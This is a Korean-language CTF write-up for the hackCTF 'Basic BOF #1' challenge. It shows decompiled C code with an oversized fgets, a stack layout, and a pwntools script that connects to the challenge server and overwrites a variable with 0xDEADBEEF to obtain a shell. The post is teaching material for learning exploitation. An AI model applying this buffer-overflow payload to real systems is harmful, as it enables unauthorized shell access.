 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #1"
date:   2020-02-09
categories: hackCTF
tags: [hackCTF] [pwnable]
permalink: '/hackCTF'
---
```

hackCTF pwnable 1번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida
```c
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s; // [esp+4h] [ebp-34h]
    int v5; // [esp+2Ch] [ebp-Ch]

    v5 = 67305985;
    fgets(&s, 45, stdin); // s에 45바이트 입력 받음
    printf("\n[buf]: %s\n", &s);
    printf("[check] %p\n", v5);
    if ( v5 != 67305985 && v5 != -559038737 ) // v5가 특정 두 값이 아니면
      puts("\nYou are on the right way!"); // "You are on the right way!" 출력
    if ( v5 == -559038737 ) // v5가 특정 값이면
    {
      puts("Yeah dude! You win!\nOpening your shell...");
      system("/bin/dash"); // 쉘을 띄울 수 있다!
      puts("Shell closed! Bye.");
    }
    return 0;
```
<br>

메모리 구조를 정리해보자.<br><br>

***

| sfp |    ebp   |
|:---:|:--------:|
| ... |          |
|  v5 (67305985) / | esp+0x2C |
| ... |          |
| s   | esp+0x4  |
| ... |          |
| esp | esp+0    |

***

<br>
취약점 : fgets(&s, 45, stdin)<br>
목표 : v5<br><br>
∴ payload를 v5까지 덮을 수 있도록 만들자.


## exploit.py
```python
  #!/usr/bin/python
  from pwn import *

  p = remote('ctf.j0n9hyun.xyz', 3000)

  payload = "A"*(0x2c-0x4)+p32(0xDEADBEEF)

  p.sendline(payload)

  p.interactive()
```

-559038737는 16진수로 변환하면 0xDEADBEEF가 된다. 40byte를 아무 값으로 채운다음 p32 방식으로 0xDEADBEEF 값을 패킹해 payload 값을 만든다.

## 결과  
![0102](https://drive.google.com/uc?id=1DCHfkrbOkWFKlbtl9krspfNhFJzKnpQU)


p32 : little endian 방식으로 패킹해줌 (u32 : 언패킹)

